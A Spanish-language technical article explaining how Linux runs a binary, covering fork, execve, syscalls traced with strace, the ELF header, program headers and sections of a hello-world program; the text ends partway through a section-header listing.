

# **ELF & Dynamic Linking**

#  **Introducción**

Seguramente todos hemos visto que ejecutamos `./app` y en milisegundos tenemos un proceso vivo en el sistema. Para la inmensa mayoría de los desarrolladores modernos, ese breve lapso de tiempo es un acto de fe, una caja negra que simplemente "sucede". Para un kernel hacker, sin embargo, es el inicio de una coreografía determinada de la que muy pocos hoy conocen los pasos.

Vivimos en la era del eclipse de la curiosidad técnica. Nos hemos dejado seducir por un ecosistema de abstracciones tan alto que ya nadie se molesta en mirar hacia abajo y bucear a las profundidades donde la verdadera magia sucede. Entre Kubernetes, microservicios, eBPF convertido en "producto" y la fascinación actual por el vibe coding impulsado por IA, hemos construido una torre de marfil tecnológica. El problema es que, cuanto más alta es la torre, más frágiles son sus cimientos para quienes no saben cómo están construidos.

Nos hemos acostumbrado a que las cosas "simplemente funcionan", pero esa comodidad tiene un precio: la pérdida del control. Hoy, cuando una abstracción se rompe, la mayoría se enfrenta a una realidad incómoda y desnuda. Se dan cuenta de que Linux sigue siendo el pilar fundamental que sostiene todo el edificio, pero lo tratan como a una deidad caprichosa a la que solo se le rinde culto cuando falla, en lugar de entenderlo como la máquina de precisión que es. Ya no se enseña cómo respira el sistema; se enseña a consumir APIs que ocultan la belleza del silicio. Si no entiendes cómo funciona el runtime, no eres dueño de tu ejecución; solo tienes un préstamo del kernel.

Este artículo nace de la necesidad de recuperar ese interés perdido por lo que ocurre en las sombras del sistema operativo. La idea de esta serie es retomar el camino que empecé hace años en el extinto [CodigoUnix.com.ar](http://www.codigounix.com.ar) y desentrañar la supuesta "magia negra" que ocurre entre el teclado y el procesador. Spoiler: no hay magia, solo estructuras de datos, convenciones de llamada y saltos de memoria perfectamente orquestados.

En esta entrega, vamos a bajar al fango. Vamos a diseccionar el formato ELF (*Executable and Linkable Format*), el comportamiento del Dynamic Linker y las estructuras críticas que permiten que un puñado de bytes estáticos en el disco se conviertan en una entidad dinámica en la memoria. Bienvenidos de nuevo a las profundidades. Es hora de dejar de mirar la superficie y entender, finalmente, qué es lo que realmente está pasando ahí abajo.

```text
And then it happened, a door opened to the world. Running through the
telephone lines like heroin through an addict's veins, an electronic pulse
is sent, a refuge from the incompetence of everyday life is sought... a
lifeline is found.

"This is it. This is the place where I belong."

Hacker Manifesto (The Mentor, 1986)
```

# **¿Qué es ELF?** 

Cuando ejecutamos un binario en Linux con un simple ./app, parece que todo ocurre de forma casi mágica. Pero detrás de ese gesto hay una estructura cuidadosamente diseñada que el sistema operativo entiende a la perfección: el formato ELF (Executable and Linkable Format). ELF no es solo un archivo ejecutable; es el contrato entre tu código compilado, el loader del sistema y la memoria. Entenderlo es empezar a ver Linux no como una caja negra, sino como un sistema transparente donde cada byte tiene un propósito.

Si abrimos un archivo ELF, lo primero que encontramos no es código ejecutándose, sino metadata. Mucha metadata. ELF está diseñado como una estructura organizada que describe cómo debe ser cargado y ejecutado un programa, no solo el programa en sí.

A grandes rasgos, un archivo ELF se divide en tres partes principales:

* **ELF Header:** es la puerta de entrada. Define qué tipo de archivo es (ejecutable, librería, objeto), la arquitectura (x86, ARM), y dónde encontrar el resto de las estructuras internas.

* **Program Headers (segments):** le indican al sistema operativo cómo mapear el binario en memoria. Esta es la parte que realmente le importa al loader en tiempo de ejecución.

* **Section Headers (sections)**: organizan el contenido del archivo para el linker y herramientas de análisis (como .text, .data, .bss, .symtab, etc.).

Todo esto no es teoría: lo podemos ver fácilmente desde cualquier distribución de Linux. Vamos a necesitar algunas herramientas básicas como `gcc`, `strace`, `ps`, `readelf`, `objdump` y, por supuesto, un editor de texto (`Vim` \<3).

> Nota: el código fuente de los ejemplos del artículo está disponible en `./src`. Ahí también hay un `README.md` mínimo, y en este mismo directorio incluí un `Makefile` para compilar los binarios tal como se usan en los ejemplos.

# **Un misterioso viaje al kernel de Linux**

Arranquemos con el clásico de los clásicos:

```c
// hello_world.c
#include <stdio.h>

int main() {
    printf("Hello world!\\n");
    return 0;
}
```

Vamos a compilarlo:

```bash
%: gcc hello_world.c -o hello_world
```

Antes de hablar de ELF, headers o memoria, empecemos por lo que realmente hacemos todos los días. Tenemos un shell, como `/bin/bash`, `/bin/sh` o cualquier otro. Desde ahí ejecutamos el programa que acabamos de compilar:

```bash
%: ./hello_world
Hello world!
```

A simple vista parece que el shell está ejecutando ese binario. Pero en realidad, no es así. El shell no ejecuta programas, lo que hace es invocar una llamada al sistema: execve.  
En la práctica, el flujo es el siguiente: el shell crea un nuevo proceso (*fork*) y luego llama a `execve`, que reemplaza completamente la imagen de ese proceso con el binario que queremos ejecutar.

Pero para empezar a entender mejor todo lo que está ocurriendo, primero tenemos que introducir un concepto clave: **`fork`**.

`fork` es una system call que permite crear un nuevo proceso. Cuando un programa la invoca, el kernel genera un proceso hijo que es, en esencia, una copia del proceso actual. Ambos procesos (padre e hijo) continúan ejecutándose desde el mismo punto, pero con un detalle importante: cada uno recibe un valor de retorno distinto, lo que les permite tomar caminos diferentes.

Cada proceso en Linux tiene un identificador único llamado PID (Process ID). Cuando ocurre un `fork`, el proceso hijo recibe su propio PID, distinto del padre. Al mismo tiempo, el hijo mantiene una referencia a su proceso creador a través del PPID (Parent Process ID), que indica quién lo generó.  
Esto significa que los procesos no existen de forma aislada, sino que forman una jerarquía: cada proceso (excepto el inicial) tiene un padre, y puede a su vez criar hijos. Abramos una terminal y ejecutemos `pstree` para ver esto con más detalles:

```text
systemd─┬─ModemManager───3*[{ModemManager}]
        ├─agetty
        ├─avahi-daemon───avahi-daemon
        ├─cron
        ├─dbus-daemon
        ├─multipathd───6*[{multipathd}]
        ├─polkitd───3*[{polkitd}]
        ├─rsyslogd───3*[{rsyslogd}]
        ├─sshd───sshd───bash───pstree
        ├─sshd
        ├─systemd───(sd-pam)
        ├─systemd-journal
        ├─systemd-logind
        ├─systemd-network
        ├─systemd-resolve
        ├─systemd-timesyn───{systemd-timesyn}
        ├─systemd-udevd
        ├─udisksd───5*[{udisksd}]
        └─unattended-upgr───{unattended-upgr}
```

Este mecanismo es fundamental en sistemas Unix-like, ya que permite que un programa, como el shell, cree un nuevo proceso sin desaparecer él mismo. Ese nuevo proceso es el que luego puede transformarse en otro programa completamente distinto.

## **Todo es un archivo**

Cada vez que se crea un nuevo proceso con fork, el kernel no solo asigna un nuevo PID, sino que también expone ese proceso dentro del pseudo-filesystem `/proc`. Esto significa que automáticamente aparece un nuevo directorio en `/proc/<PID>`, que representa al proceso en ejecución y permite inspeccionar desde el espacio de usuario.

Dentro de ese directorio hay múltiples archivos y subdirectorios que reflejan el estado del proceso, pero uno de los más interesantes es `/proc/<PID>/fd`. Este directorio contiene los file descriptors abiertos por el proceso, representados como enlaces simbólicos.

Esto podemos verlo fácilmente inspeccionando los file descriptors que tiene abiertos nuestro proceso actual. Para ello, podemos usar la variable especial `$$,` que contiene el PID del proceso en ejecución:

```bash
%: ls -al /proc/$$/fd/ 
total 0
dr-x------ 2 tty0 tty0  4 Apr  5 19:09 .
dr-xr-xr-x 9 tty0 tty0  0 Apr  5 19:09 ..
lrwx------ 1 tty0 tty0 64 Apr  5 19:09 0 -> /dev/pts/0
lrwx------ 1 tty0 tty0 64 Apr  5 19:09 1 -> /dev/pts/0
lrwx------ 1 tty0 tty0 64 Apr  5 19:09 2 -> /dev/pts/0
lrwx------ 1 tty0 tty0 64 Apr  5 19:09 255 -> /dev/pts/0
```

Cada entrada corresponde a un file descriptor abierto. Por ejemplo, `0, 1` y `2` representan stdin, stdout y stderr, respectivamente, y en este caso todos apuntan al mismo terminal (`/dev/pts/0`).

Por defecto, todo proceso en Unix comienza con tres file descriptors estándar, 0, 1 y 2\. Y a cada archivo (o conexión de red) que el proceso abre se le otorga un nuevo número de file descriptor para identificarlo.

| 0 | STDIN | Entrada estándar, generalmente conectada al teclado.  |
| :---- | :---- | :---- |
| 1 | STDOUT | Salida estándar, generalmente la terminal (pantalla) |
| 2 | STDERR | Salida de error, también ligada a la terminal (logs)  |

```bash
En Unix, las conexiones de red se representan como sockets, un tipo especial de archivos. El kernel los expone como file descriptors, permitiendo usa`r read(), write()` o `poll()` igual que con archivos comunes.
```

Los FIle Descriptors son heredados a través de fork, lo que significa que el proceso hijo comienza con los mismos canales de entrada y salida que su padre. Es por eso que, cuando ejecutamos un programa desde el shell, su entrada y salida aparecen en la misma terminal.   
  
Sin embargo, esa “copia” no implica que el kernel duplique toda la memoria inmediatamente. En la práctica, Linux utiliza un mecanismo llamado **copy-on-write (CoW)**.  
Al momento del fork, padre e hijo comparten las mismas páginas de memoria de forma temporal. Recién cuando uno de los dos intenta modificar esa memoria, el kernel crea una copia independiente.

Esto hace que fork sea mucho más eficiente de lo que podría parecer, ya que evita copiar grandes cantidades de memoria innecesariamente, lo que tardaría muchísimo tiempo.

Para entender mejor esto, es útil distinguir dos conceptos: la **memoria virtual** y el uso real de memoria.

Cada proceso tiene su propio espacio de memoria virtual, que representa el conjunto total de direcciones que puede utilizar. Pero eso no significa que toda esa memoria esté realmente cargada en RAM.  
El uso real de memoria se mide a través del **Resident Set Size** (***RSS***), que indica cuántas páginas del proceso están efectivamente presentes en memoria física en un momento dado. 

En el caso de fork, tanto el padre como el hijo pueden tener el mismo espacio de memoria virtual, pero compartir físicamente las mismas páginas, por lo que el RSS no se duplica inmediatamente.

Es recién cuando alguno de los procesos intenta escribir en una de esas páginas compartidas que ocurre una interrupción especial denominada **page fault**. En ese momento, el kernel interviene, crea una copia de la página y actualiza las referencias para que cada proceso tenga su propia versión, haciendo que a partir de ese momento, solamente el dueño de esa página pueda acceder a ella para leerla o modificarla. 

Podemos inspeccionar la memoria real y el RSS de nuestros procesos utilizando el comando `ps`.

```bash
%: ps -o pid,rss,vsz,cmd
    PID   RSS    VSZ CMD
  41720  5556   8620 -bash
  59003  3904  10668 ps -o pid,rss,vsz,cmd
```

## **Llamadas al sistema**

Para entender qué está pasando realmente, hay que partir de una idea fundamental: en Linux, el mundo está dividido en dos espacios: por un lado está el User Space, donde viven nuestros programas: el shell, el navegador, y cualquier aplicación que ejecutamos. Por otro lado está el Kernel Space, donde vive el kernel del sistema operativo, que tiene control total sobre el hardware y los recursos del sistema.

Un programa en User Space no puede hacer cualquier cosa. Está aislado por diseño. Puede ejecutar código y manejar su propia memoria, pero no puede acceder directamente al disco, a la red o al procesador en un nivel bajo. Esa restricción no es un límite arbitrario, es lo que garantiza la seguridad y la estabilidad del sistema. Si un programa quiere escribir un archivo, enviar datos por la red o, como en nuestro caso, ejecutar otro binario, necesita pedirle al kernel que lo haga por él. Ahí es donde entran las system calls.

Una syscall es la interfaz controlada que permite a un programa en User Space solicitar al kernel que realice una operación privilegiada. Es el único punto de entrada al Kernel Space. Cuando el shell invoca `execve`, lo que realmente está haciendo es delegar completamente la ejecución en el kernel. Es una forma de decir: “*Acá hay un archivo ELF. Yo no puedo hacer nada con esto a bajo nivel, pero vos sí. Cargalo en memoria y ponelo a correr.*” Y es a partir de ese momento que comienza todo el proceso que venimos analizando.

El Kernel no entiende `write`, `open` o `execve`. Lo que realmente interpreta son números. Cada syscall tiene un identificador único definido dentro del propio kernel. Cuando un programa quiere ejecutar una syscall, lo que hace es cargar ese número en un registro y ejecutar una instrucción especial (syscall en x86\_64) que transfiere el control al kernel. Podemos verlo directamente en el código del kernel. En arquitecturas x86\_64: [https://elixir.bootlin.com/linux/v6.19.11/source/arch/x86/entry/syscalls/syscall\_64.tbl](https://elixir.bootlin.com/linux/v6.19.11/source/arch/x86/entry/syscalls/syscall_64.tbl) 

Es decir, cuando un programa invoca `execve`, lo que realmente está haciendo es ejecutar la syscall número 59 (en x86\_64). 

Existe una herramienta que nos permite verlas en tiempo real: `strace` la cual es una utilidad que intercepta y muestra las system calls que realiza un programa mientras se ejecuta. En lugar de ver funciones de alto nivel como `printf`, lo que vemos es la interacción real entre el programa y el kernel. 

```bash
%: strace -f ./hello_world
execve("./hello_world", ["./hello_world"], 0xffffe9514538 /* 26 vars */) = 0
brk(NULL)                               = 0xbbabf2db5000
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfa3c1622e000
faccessat(AT_FDCWD, "/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=38859, ...}) = 0
mmap(NULL, 38859, PROT_READ, MAP_PRIVATE, 3, 0) = 0xfa3c16224000
close(3)                                = 0
openat(AT_FDCWD, "/lib/aarch64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\\177ELF\\2\\1\\1\\3\\0\\0\\0\\0\\0\\0\\0\\0\\3\\0\\267\\0\\1\\0\\0\\0\\360\\206\\2\\0\\0\\0\\0\\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1722920, ...}) = 0
mmap(NULL, 1892240, PROT_NONE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_DENYWRITE, -1, 0) = 0xfa3c16027000
mmap(0xfa3c16030000, 1826704, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0) = 0xfa3c16030000
munmap(0xfa3c16027000, 36864)           = 0
munmap(0xfa3c161ee000, 28560)           = 0
mprotect(0xfa3c161ca000, 77824, PROT_NONE) = 0
mmap(0xfa3c161dd000, 20480, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x19d000) = 0xfa3c161dd000
mmap(0xfa3c161e2000, 49040, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xfa3c161e2000
close(3)                                = 0
set_tid_address(0xfa3c1622ef90)         = 58966
set_robust_list(0xfa3c1622efa0, 24)     = 0
rseq(0xfa3c1622f5e0, 0x20, 0, 0xd428bc00) = 0
mprotect(0xfa3c161dd000, 12288, PROT_READ) = 0
mprotect(0xbbabc576f000, 4096, PROT_READ) = 0
mprotect(0xfa3c16233000, 8192, PROT_READ) = 0
prlimit64(0, RLIMIT_STACK, NULL, {rlim_cur=8192*1024, rlim_max=RLIM64_INFINITY}) = 0
munmap(0xfa3c16224000, 38859)           = 0
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0x1), ...}) = 0
getrandom("\\xd9\\xfa\\xb1\\x22\\x0f\\x48\\xa0\\x76", 8, GRND_NONBLOCK) = 8
brk(NULL)                               = 0xbbabf2db5000
brk(0xbbabf2dd6000)                     = 0xbbabf2dd6000
write(1, "Hello world!\\n", 13Hello world!
)          = 13
exit_group(0)                           = ?
\+++ exited with 0 \+++
```

Si ejecutamos el programa con `strace`, lo que vemos no es otra cosa que la conversación entre nuestro programa y el kernel. Todo comienza con:

```bash
execve("./hello_world", ["./hello_world"], ...)
```

Esta es la syscall clave. `execve` es la encargada de cargar y ejecutar un nuevo programa. Esta llamada recibe tres argumentos: la ruta del ejecutable, el array de argumentos (`argv`) y el entorno (`envp`).

Ese segundo parámetro que vemos en `strace`:

```bash
["./hello_world"]
```

corresponde a `argv`, es decir, el array de argumentos que recibe el programa. El primer elemento, por convención, es siempre el nombre del ejecutable.

A partir de ese array, el kernel construye dos valores fundamentales que nuestro programa recibirá al comenzar su ejecución:

* **argc**: la cantidad de argumentos  
* **argv**: el vector de strings con esos argumentos

Por ejemplo, si ejecutamos:

```bash
%: ./hello_world foo bar 
argc = 3
argv = ["./hello_world", "foo", "bar"]
```

Estos valores no aparecen mágicamente en `main`. El kernel los prepara y los deja listos como parte del entorno inicial del proceso, de modo que el programa pueda acceder a ellos desde el primer momento.

Cuando esta llamada ocurre, el proceso actual es completamente reemplazado: su memoria, su código y su estado anterior desaparecen, y en su lugar se carga el nuevo binario. A partir de ese momento, todo lo que vemos en el `strace` corresponde a la inicialización de ese nuevo programa.

Luego aparecen múltiples syscalls relacionadas con memoria (`mmap, brk, mprotect`) y acceso a archivos (`openat, read`). Pero todo ese trabajo ocurre “antes” de que nuestro programa realmente haga algo visible.

La secuencia alrededor de `read()` es particularmente interesante:

```bash
openat(AT_FDCWD, "/lib/aarch64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\\177ELF\\2\\1\\1\\3\\0\\0\\0\\0\\0\\0\\0\\0\\3\\0\\267\\0\\1\\0\\0\\0\\360\\206\\2\\0\\0\\0\\0\\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1722920, ...}) = 0
mmap(NULL, 1892240, PROT_NONE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_DENYWRITE, -1, 0) = 0xfa3c16027000
```

Primero, el proceso abre la librería estándar de C (`libc.so.6`) utilizando openat, en modo solo lectura y con el flag `close-on-exec`, obteniendo el file descriptor `3`. A partir de ahí, comienza a leer los primeros bytes del archivo: ese `read()` inicial no es casual, corresponde al header ELF, que le permite al loader entender cómo está estructurado el binario y cuyo concepto desarrollaremos más adelante.

Luego, mediante `fstat()`, obtiene metadata del archivo ya abierto (como su tamaño y permisos) sin necesidad de volver a resolver el path. Con esta información, el loader ya tiene todo lo necesario para el siguiente paso: mapear la `libc` en memoria usando `mmap()`, preparando así el espacio de direcciones del proceso para poder ejecutar el código. En este punto, el archivo deja de ser “un archivo en disco” y pasa a formar parte del proceso.

También la pena prestar especial atención a `close()`, esta llamada al sistema cierra un file descriptor utilizado por el proceso:

```bash
close(3)              = 0
```

Cuyo valor de retorno es `0`, significando que la system call pudo liberar ese file descriptor de forma eficiente (cualquier estado de retorno diferente a `0` es un error). 

 Finalmente, llegamos a esta línea:

```bash
write(1, "Hello world!\\n", 13)
```

Acá ocurre el efecto observable. Esta syscall escribe 13 bytes en el file descriptor 1, que corresponde a la salida estándar (`stdout`), es decir, la terminal.

Esto es importante: nuestro programa no “imprime” en pantalla directamente. Lo que hace es invocar `write`, una syscall que le pide al kernel que escriba datos en un descriptor de archivo, podemos ver esto en la página de manual de la propia llamada al sistema:

```c
%: man 2 write
NAME
       write - write to a file descriptor

LIBRARY
       Standard C library (libc, -lc)

SYNOPSIS
       *#include <unistd.h>*

       ssize_t write(int fd, const void buf[.count], size_t count);

DESCRIPTION
       write() writes up to count bytes from the buffer starting at buf to the file referred to by the file descriptor fd.

       The  number  of  bytes  written  may  be  less  than  count if, for example, there is insufficient space on the underlying physical medium, or the RLIMIT_FSIZE resource limit is encountered (see setrlimit(2)), or the call was interrupted by a signal handler after having written less than count bytes.  (See also
       pipe(7).)

       For a seekable file (i.e., one to which lseek(2) may be applied, for example, a regular file) writing takes place at the file offset, and the file offset is incremented by the number of bytes actually written.  If the file was open(2)ed with O_APPEND, the file offset is first set to the end of the  file  before
       writing.  The adjustment of the file offset and the write operation are performed as an atomic step.

       POSIX requires that a read(2) that can be proved to occur after a write() has returned will return the new data.  Note that not all filesystems are POSIX conforming.

       According to POSIX.1, if count is greater than SSIZE_MAX, the result is implementation-defined; see NOTES for the upper limit on Linux.
```

Entonces, sabiendo esto, podríamos evitar pasar por funciones de alto nivel como `printf` o `puts`, y llamar directamente a la syscall `write()`:

```c
// hello_world_write.c #include <unistd.h> // Necesaria para write

int main() {
char *msg = "Hello world!\\n";

// write(fd, buffer, count)
// fd = 1 → stdout
write(1, msg, 13);

return 0;
}
```

El cual compilamos nuevamente con `gcc`:

```bash
%: gcc ./hello_world_write.c -o ./hello_world_write
```

El cual podemos ejecutar y nos va a dar como resultado lo mismo:

```bash
*%: ./hello_world_write* 
Hello world!
```

# **ELF Header: la identidad del binario**

Vamos a inspeccionar el header del binario generado (`./hello_world`)

```text
%: readelf -h ./hello_world ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Position-Independent Executable file)
  Machine:                           AArch64
  Version:                           0x1
  Entry point address:               0x640
  Start of program headers:          64 (bytes into file)
  Start of section headers:          68528 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         9
  Size of section headers:           64 (bytes)
  Number of section headers:         28
  Section header string table index: 27
```

A primera vista puede parecer ruido… pero en realidad este bloque contiene toda la información que el sistema operativo (aka Linux) necesita para empezar a entender el archivo.

Dentro del header, quizás el campo más interesante es el **Magic** (**`7f 45 4c 46`**): es literalmente la firma  
del archivo. Le dice al sistema: *“esto es un ELF”*.

De hecho, hay un detalle bastante interesante. Si imprimimos esos bytes en Python:

```bash
%: python3 -c 'print("\\x7f\\x45\\x4c\\x46")'
ELF
```

Es decir, estamos viendo la representación en ASCII de `ELF`, precedida por el byte `0x7f`, que no es imprimible pero actúa como un marcador especial.

Es decir, lo que en el `strace` parecía solo una lectura más, en realidad es el primer paso para que el kernel pueda ejecutar el programa.

Esto no es casualidad. Muchos formatos binarios comienzan con un *magic number* justamente para que el sistema (y herramientas como `file`) puedan identificar rápidamente el tipo de archivo sin ambigüedades.

Si seguimos leyendo el header, aparece un campo que a simple vista puede pasar desapercibido, pero que en realidad nos dice mucho más de lo que parece:

```bash
Type: DYN (Position-Independent Executable file)
```

A primera vista podríamos pensar que estamos frente a una librería compartida, ya que los objetos `.so` también son de tipo DYN. Sin embargo, en este caso se trata de un ejecutable compilado como **PIE (Position Independent Executable)**.

Esto implica que el binario no tiene direcciones fijas definidas en tiempo de compilación. En su lugar, está construido de forma que puede ser cargado en distintas posiciones de memoria cada vez que se ejecuta. Es decir, sus direcciones son relativas y pueden ajustarse dinámicamente en tiempo de carga.

Este detalle no es menor: es lo que permite que el binario funcione correctamente junto con mecanismos como ASLR, donde el layout de memoria cambia en cada ejecución. Sin PIE, el programa principal quedaría anclado siempre a la misma dirección, haciendo mucho más predecible su comportamiento.

En otras palabras, este DYN no indica que el binario sea “dinámico” en el sentido clásico, sino que está preparado para no depender de una ubicación fija en memoria.

En otras palabras, antes de que el kernel piense en ejecutar nada, lo primero que hace es validar: *“¿esto realmente es lo que creo que es?”*. Y esa respuesta empieza en los primeros 4 bytes.

Si recordamos el `strace` que vimos al principio, había una línea que podía pasar desapercibida:

read(3, "\\177ELF\\2\\1\\1\\3\\0\\0\\0\\0\\0\\0\\0\\0...", 832\) \= 832

Ese momento es exactamente cuando el sistema está leyendo el header del archivo ELF. Esos primeros bytes contienen el Magic Number, que le permite al kernel validar que el archivo es ejecutable y entender cómo interpretarlo.

Ciertamente el comando de Linux file, se utiliza para saber que tipo de archivo es un archivo en particular, y como se da cuenta? Efectivamente, leyendo los primeros 4 bytes:

```bash
%: file ./hello_world
./hello_world: ELF 64-bit LSB pie executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=be76f6465982c1063047aad9324cd6fc9ef1a623, for GNU/Linux 3.7.0, not stripped
```

Hecha esta aclaración si seguimos con el magic number encontramos más información útil dentro del mismo, ELF reserva los primeros 16 bytes del archivo para una estructura llamada `e_ident`, que define las reglas básicas del binario: su arquitectura, su endianness y cómo debe interpretarse el resto del archivo.

Veamos en la siguiente tabla el significado de los mismos:

| Offset | Valor | Significado |
| :---- | :---- | :---- |
| 0 | `0x7f` | Marca especial  |
| 1-3 | `45 4c 46` | 'E' 'L' 'F' → firma |
| 4 | `02` | Clase → 64 bits (ELF64) |
| 5 | `01` | Endianness → little endian |
| 6 | `0` | Versión ELF (actual \= 1\) |
| 7 | `00` | OS/ABI → System V (genérico Linux/Unix) |
| 8 | `00` | ABI version |
| 9-15 | `00 …` | Padding (reservado, sin uso) |

Una vez que entendemos el Magic, todo empieza a tener más sentido. Sabemos que es un binario de 64 bits (ELF64), como indica el campo Class, y que usa arquitectura little endian, es decir, cómo se representan los números y en qué orden se guardan los bytes en memoria: el menos significativo primero (a diferencia de big endian).

En este punto aparece un concepto clave que muchas veces pasa desapercibido: la ABI (Application Binary Interface). Mientras que **`e_ident`** nos dice qué es el archivo y cómo leerlo, la ABI define cómo debe comportarse ese binario una vez cargado en memoria. Es decir, establece las reglas del juego: cómo se pasan argumentos a funciones, cómo interactúa con el sistema operativo y cómo se enlaza con librerías dinámicas. En Linux, la mayoría de los binarios siguen la System V ABI, lo que permite que el kernel, el dynamic linker y las librerías hablen el mismo idioma.

Hasta acá entendemos cómo el sistema identifica un ELF, cómo interpreta sus primeros bytes y bajo qué reglas debe comportarse. Pero todavía falta responder la pregunta más importante: ¿cómo pasa este archivo en disco a convertirse en un proceso en ejecución?

Si volvemos al header, hay varios campos que hasta ahora ignoramos, pero que son fundamentales para responder esto:

```bash
Entry point address:               x640
Start of program headers:          64 (bytes into file)
Number of program headers:         9
```

Estos valores no describen qué es el archivo, sino cómo recorrerlo. En particular, le dicen al sistema dónde encontrar una de las estructuras más importantes del ELF: los Program Headers. El kernel no ejecuta el archivo completo. Solo carga en memoria lo que los Program Headers le indican.

**Dynamic Linking: cuando el binario no está solo**

Para entender realmente qué pasa cuando hacemos `./hello_world`, tenemos que dejar de mirar el archivo como un conjunto de bytes y empezar a verlo como un conjunto de segmentos que se mapean en memoria. Podemos ver esto con:

```bash
%: readelf -l ./hello_world
```

Esto nos muestra los *Program Headers*, es decir, los segmentos que el kernel va a utilizar para cargar el binario:

```text
Program Headers:
  Type           Offset   VirtAddr           PhysAddr
                 FileSiz  MemSiz              Flags  Align

  LOAD           0x000000 0x0000000000000000 ...
  LOAD           0x001000 0x0000000000001000 ...
  INTERP         0x0002a8 0x00000000000002a8 ...
  DYNAMIC        0x000e00 0x0000000000000e00 ...
```

Acá aparece algo clave: cada uno de estos segmentos representa una región de memoria que el kernel va a mapear en el proceso.

Algunos de los más importantes:

* **LOAD:** segmentos que contienen el código y los datos del programa. Se mapean con permisos específicos (lectura, escritura, ejecución).  
* **INTERP:** define qué programa debe encargarse de cargar el binario (spoiler: el dynamic linker).  
* **DYNAMIC:** contiene la información necesaria para resolver dependencias dinámicas (librerías, símbolos, relocations).

En otras palabras, el ELF no se carga completo: el kernel selecciona qué partes mapear en memoria y con qué permisos, siguiendo exactamente lo que indican estos headers.

Si el binario tiene un segmento INTERP, el kernel no ejecuta directamente nuestro programa. En su lugar, primero carga ese intérprete en memoria y le transfiere el control. Ese intérprete es el dynamic linker.

Sin entrar todavía en cómo funciona internamente, hay una idea clave: en Linux, la mayoría de los binarios están linkeados dinámicamente.

Esto quiere decir que el binario no contiene todo el código que necesita para ejecutarse.  
En su lugar, delega parte de su funcionamiento en librerías externas (como `libc`), que serán cargadas en tiempo de ejecución por el dynamic linker.

**Nuestro binario no es autosuficiente; necesita de otras piezas para poder ejecutarse.**

Pero independientemente de cómo se resuelvan esas dependencias, hay algo que sí está completamente definido dentro del binario: cómo está organizado su contenido.

# **Secciones y segmentos**

Si dejamos de pensar en segmentos y volvemos a una vista más lógica del programa, aparecen las secciones, que agrupan distintos tipos de datos según su propósito:

* **`.text`**: Código ejecutable  
* **`.data:`** Variables globales inicializadas  
* **`.bss:`** Variables globales no inicializadas  
* **`.rodata:`** Datos de solo lectura (como strings)

Estas secciones representan el programa tal como fue compilado, y luego son utilizadas (directa o indirectamente) para construir los segmentos que vimos antes. Pero esto no es solo una abstracción. Podemos ver estas secciones directamente en el binario:

```text
%: readelf -S ./hello_world

There are 28 section headers, starting at offset 0x10bb0:
Section Headers:
[Nr] Name            Type        Flags
[ 1] .interp         PROGBITS    A
[ 5] .dynsym         DYNSYM      A
[ 6] .dynstr         STRTAB      A
[ 9] .rela.dyn       RELA        A
[10] .rela.plt       RELA        AI
